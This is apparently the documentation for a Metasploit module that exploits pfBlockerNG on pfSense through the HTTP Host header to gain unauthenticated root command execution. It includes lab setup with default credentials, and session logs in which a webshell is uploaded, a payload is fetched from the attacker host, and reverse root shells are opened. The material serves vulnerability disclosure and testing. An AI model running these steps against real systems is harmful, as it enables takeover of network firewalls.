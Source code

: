 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell metacharacters in the HTTP Host header.
Versions =< 2.1.4_26 are vulnerable, note that version 3.X is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`


Install the .iso file in your favorite virtualizing software. Once installed pfSense will start and you can accesss the
web GUI by navigating to `https://<pfSense-IP-address>/`

Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerble package with:
`pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

**WEBSHELL_NAME**

This is the name of the webshell that will get uploaded to the pfsense target. If left unset the file name will get
randomly generated.

## Verification Steps

1. Start msfconsole
1. Do: `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST`, `LHOST` options
1. Run the module
1. Receive a cmd shell as the root user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf6 > use unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set rhosts 172.16.199.131
rhosts => 172.16.199.131
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Uploading shell...
[*] Webshell name is: BrNGc.php
[+] Upload succeeded, response from running id command: uid=0(root) gid=0(wheel) groups=0(wheel)

[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.16.199.1:8080/EYFwssRWAhtL
[*] Client 172.16.199.131 (curl/7.76.1) requested /EYFwssRWAhtL
[*] Sending payload to 172.16.199.131 (curl/7.76.1)
[*] Command shell session 4 opened (172.16.199.1:4444 -> 172.16.199.131:2036) at 2022-09-15 17:15:04 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
^C
Abort session 4? [y/N]  y

[*] 172.16.199.131 - Command shell session 4 closed.  Reason: User exit
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > set target 0
target => 0
msf6 exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Uploading shell...
[*] Webshell name is: mTENCpIHTIl.php
[+] Upload succeeded, response from running id command: uid=0(root) gid=0(wheel) groups=0(wheel)

[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo kcejSRsHIm1IaTNd;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "kcejSRsHIm1IaTNd\n"
[*] Matching...
[*] B is input...
[*] Command shell session 5 opened (172.16.199.1:4444 -> 172.16.199.131:51321) at 2022-09-15 17:16:07 -0400

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
```

